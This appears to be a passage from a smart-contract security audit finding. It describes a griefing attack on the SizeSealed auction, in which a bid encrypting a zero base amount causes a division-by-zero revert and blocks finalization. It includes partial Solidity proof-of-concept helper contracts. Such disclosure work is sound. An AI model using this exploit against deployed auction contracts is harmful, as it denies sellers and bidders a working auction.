```solidity
uint256 quotePerBase = FixedPointMathLib.mulDivDown(b.quoteAmount, type(uint128).max, 0);
```

According to the implementation of the `FixedPointMathLib.mulDivDown`, the transaction will be reverted.

### Attack scenario

A mallicious user may encrypt the message with `baseAmount == 0`, then the auction is impossible to `finalize`. 

## Impact

Any user can make a griffering attack to invalidate the auction.

## PoC

```solidity=
// SPDX-License-Identifier: MIT OR Apache-2.0

pragma solidity =0.8.17;
pragma experimental ABIEncoderV2;

import {SizeSealed} from "SizeSealed.sol";
import {ISizeSealed} from "interfaces/ISizeSealed.sol";
import {ECCMath} from "util/ECCMath.sol";

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";

contract MintableERC20 is ERC20
{
    constructor() ERC20("", "") {

    }

    function mint(address account, uint256 amount) public {
        _mint(account, amount);
    }
}

contract ExternalBidder
{
    uint256 constant privateKey = uint256(0xabcdabcd); 
    function createBid(ERC20 quoteToken, SizeSealed sizeSealed, uint256 auctionId, uint128 quoteAmount, uint256 sellerPrivateKey, bytes32 message) external returns (uint256) {
        quoteToken.approve(address(sizeSealed), quoteAmount);

        (, bytes32 encryptedMessage) = ECCMath.encryptMessage(ECCMath.publicKey(sellerPrivateKey), privateKey, message);

        return sizeSealed.bid(
            auctionId,
            quoteAmount,
            keccak256(abi.encode(message)),
            ECCMath.publicKey(privateKey),
            encryptedMessage,
            "",
            new bytes32[](0)
        );
    }
}

```